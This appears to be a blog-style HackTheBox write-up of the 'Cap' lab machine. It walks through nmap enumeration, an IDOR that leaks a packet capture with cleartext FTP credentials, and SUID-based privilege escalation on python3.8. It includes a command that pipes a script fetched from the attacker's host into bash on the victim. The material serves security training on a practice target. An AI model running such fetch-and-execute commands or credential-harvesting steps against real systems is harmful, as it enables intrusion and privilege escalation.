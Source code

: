 ```yaml
---
title: Cap
date: 2022-08-13 19:25
categories: [Linux,IDOR,Packet Capture,SUID Exploitation]
tags: [htb]
--- 
```

Cap is a pretty straight-forward easy level machine on HacktheBox that I had alot of fun completing. We start by finding an IDOR vulnerability on the web server which lets us grab a .pcap file from the past. Opening it with wireshark shows us credentials for a user on the machine, and from there we get to root through an SUID exploit.

### Enumeration

Starting with NMAP, we see that FTP, SSH, and HTTP services are running on ports 21, 22, and 80.

```bash
sudo nmap -sC 10.10.10.245
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-13 18:53 EDT
Nmap scan report for 10.10.10.245
Host is up (0.052s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http
|_http-title: Security Dashboard
```

Before we look at the website, it's always a good idea to check if anonymous login is enabled on the FTP server. 

```bash
$ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
```

Turns out it's disabled-let's just check out the website,seems to be a security monitoring dashboard which contains information on the host's internal network. Potential username on the right side "Nathan".

![site](/assets/img/cap/site.png)

We can see the output of ifconfig

![ifconfig](/assets/img/cap/ifconfig.png)

netstat

![netstat](/assets/img/cap/netstat.png)

and most interestingly, an endpoint on http://10.10.10.245/data/1 that contains a (blank) pcap file from the past 5 seconds.

![data](/assets/img/cap/data.png)
![pcap](/assets/img/cap/pcap.png)

### Using the IDOR to Get Nathan's Credentials

What happens however if we change the url to http://10.10.10.245/data/0 ?

![data](/assets/img/cap/idor.png)
![data](/assets/img/cap/pcap2.png)

we get a packet capture from the past with an indirect direct object reference (IDOR).

![creds](/assets/img/cap/creds.png)

In this case, we can see an in-the-clear successful authentication attempt from Nathan to the FTP server, showing us his credentials. Using these credentials, we can login to the machine through SSH and grab the user flag.

![creds](/assets/img/cap/user.png)

### Privilege Escalation

From here we can get [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) on the box, an awesome script that looks for tons of priv-esc vectors. We start by serving linpeas.sh from our local machine on a simple python http server.

![web](/assets/img/cap/web.png)
![web](/assets/img/cap/mysite.png)

Then from the victim's machine we pull the script from our website and execute it automatically with:

```bash
curl 10.10.14.17:8000/linpeas.sh | bash
```

We get a hit on our server from the victim's IP address, and the script executes on the victim's machine.

![hit](/assets/img/cap/hit.png)

Linpeas found something juicy:
![suid](/assets/img/cap/suid.png)
Nathan has the SUID bit on /usr/bin/python3.8, which can be used to get a root shell on the box with a trick from [hackingarticles](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/).
![root](/assets/img/cap/root.png)